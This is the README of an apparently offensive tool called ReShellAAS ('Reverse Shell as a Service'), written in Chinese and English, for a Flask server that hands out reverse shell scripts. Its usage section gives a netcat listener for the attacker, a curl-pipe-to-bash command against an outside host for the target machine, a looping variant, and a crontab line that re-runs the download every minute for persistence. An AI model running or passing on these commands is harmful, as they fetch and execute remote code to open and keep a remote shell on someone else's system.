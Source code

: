 # ReShellAAS
Reverse Shell as a Service
反弹shell即服务

## 项目简介
无需再去记住复杂的反弹shell命令，通过Reverse Shell as a Service可以方便、快捷的创建反弹shell脚本。



## Docker 启动

```bash
docker-compose build
docker-compose up
```



## 安装及服务端启动方法

```bash
pip3 install flask
python3 app.py
```

## 使用方法
### Attacker Machine
```
nc -l 1337
```

### Target Machine
```
curl http://reshell.tk/ip/1337 | bash
或者
while true; do curl http://reshell.tk/ip/1337 | bash; done
```
配合crontab使用效果更佳
```
crontab -e
* * * * * /usr/bin/curl http://reshell.tk/ip/1337 | bash
```

## 致谢
感谢P师傅以及P师傅的知识星球以及原创这个点子的小机灵鬼。

## TODO
- 适应多场景的反弹shell语法
- etc...

